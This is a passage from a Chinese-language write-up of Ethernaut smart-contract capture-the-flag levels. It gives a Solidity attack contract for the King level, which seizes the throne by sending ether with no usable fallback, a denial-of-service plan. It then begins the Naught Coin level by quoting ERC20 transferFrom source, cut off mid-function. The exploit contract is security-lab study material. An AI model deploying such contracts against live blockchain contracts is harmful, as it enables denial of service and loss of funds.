 &emsp;&emsp;这个题目有点坑爹，他原本的目的是让你进行一次**ddos**攻击,在之前的版本中，我们可以使用  
```javascript
1. require()

2. revert()

3. assert()
```
&emsp;&emsp;这三个函数主动抛出错误，这样一样就可以阻止**transfer()**的进行，但是在实施的时候我们发现这三个函数并没有阻止交易的进行，所以我们决定直接放弃编写fallback()从而进行拒绝服务攻击。  

```javascript
contract fuck{
    function fuck() payable{
        address king_addr = 0xc48b3899a3a594b170404855De1B0bDA2d0aec1c;
        king_addr.call.value(1.01 ether)();
    }
    function gg() public{
        selfdestruct(msg.sender);
    }
}
```
> gg()完全是为了以防钱提不出来，留个后手。  

---

#### 15.Naught Coin  

> **Target**:取出合约中player所对应的balances  

&emsp;&emsp;这里的balances实际上是一个token，作者重写了transfer()方法，但是他的源码不见了，我在github上找到了之前的版本：  

```javascript
pragma solidity ^0.4.24;

import "./BasicToken.sol";
import "./ERC20.sol";


/**
 * @title Standard ERC20 token
 *
 * @dev Implementation of the basic standard token.
 * https://github.com/ethereum/EIPs/issues/20
 * Based on code by FirstBlood: https://github.com/Firstbloodio/token/blob/master/smart_contract/FirstBloodToken.sol
 */
contract StandardToken is ERC20, BasicToken {

  mapping (address => mapping (address => uint256)) internal allowed;


  /**
   * @dev Transfer tokens from one address to another
   * @param _from address The address which you want to send tokens from
   * @param _to address The address which you want to transfer to
   * @param _value uint256 the amount of tokens to be transferred
   */
  function transferFrom(
    address _from,
    address _to,
    uint256 _value
  )
    public
    returns (bool)
  {
    require(_value <= balances[_from]);
```